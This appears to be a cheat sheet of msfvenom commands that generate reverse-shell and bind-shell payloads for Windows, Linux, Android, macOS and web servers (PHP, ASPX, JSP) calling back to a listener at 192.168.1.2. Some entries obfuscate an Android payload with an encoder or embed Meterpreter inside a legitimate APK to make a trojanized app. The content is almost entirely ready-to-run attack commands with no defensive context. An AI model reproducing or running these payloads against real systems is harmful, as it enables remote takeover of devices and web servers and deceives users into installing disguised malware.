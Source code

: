 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f exe-service > service.exe  
```

#### **Linux**  
```bash
# Reverse TCP Shell (x86)  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f elf > shell.elf  

# Bind Shell (x64)  
msfvenom -p linux/x64/shell_bind_tcp LPORT=4444 -f elf > bind_shell.elf  

# Python Reverse Shell  
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw > shell.py  
```

#### **Android**  

```bash
# Obfuscated APK (Encoded)  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -e x86/shikata_ga_nai -i 3 R > obfuscated.apk  

# APK Embedded in Legitimate App (Template)  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -x legit_app.apk R > malicious.apk  

# Android Shell Payload (No Meterpreter)  
msfvenom -p android/shell/reverse_tcp LHOST=192.168.1.2 LPORT=4444 R > android_shell.apk  
```

#### **macOS**  
```bash
# Reverse TCP Shell (x64)  
msfvenom -p osx/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f macho > shell.macho  

# Meterpreter Payload (Staged)  
msfvenom -p osx/x64/meterpreter_reverse_https LHOST=192.168.1.2 LPORT=443 -f macho > meterpreter.macho  
```

#### **Web Payloads**  
```bash
# PHP Reverse Shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw > shell.php  

# ASPX Payload (Windows Web Shell)  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f aspx > shell.aspx  

# JSP Payload (Java Web Shell)  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=4444 -f raw > shell.jsp  

```
